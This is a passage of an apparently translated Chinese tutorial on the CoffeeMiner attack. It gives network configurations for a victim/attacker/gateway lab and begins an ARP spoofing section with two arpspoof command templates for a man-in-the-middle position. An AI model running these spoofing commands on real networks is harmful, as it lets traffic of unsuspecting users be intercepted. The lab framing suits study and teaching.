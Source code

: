 **受害者**

网络适配器：
```
eth0:Host-only Adapter
```

/etc/network/interfaces:

```
auto lo
iface lo inet loopback
auto eth0
iface eth0 inet static
address 10.0.2.10
netmask 255.255.255.0
gateway 10.0.2.15
```

**攻击者**

网络适配器：
```
eth0:Host-only Adapter
```

/etc/network/interfaces:
```
autolo
iface lo inet loopback
auto eth0
iface eth0 inet static
address 10.0.2.20
netmask 255.255.255.0
gateway 10.0.2.15
```

**路由器/网关**

网络适配器：
```
eth0:Bridged Adapter
eth1:Host-only Adapter
```

/etc/network/interfaces:
```
auto lo
iface lo inet loopback
auto eth0
iface eth0 inet dhcp
auto eth1
iface eth1 inet static
address 10.0.2.15
netmask 255.255.255.0
```

## 二、CoffeeMiner介绍
### 2.1 ARP欺骗
为了执行ARP欺骗攻击，我们将使用dsniff库：
```
arpspoof-i interface -t ipVictim ipGateway
arpspoof-i interface -t ipGateway ipVictim
```
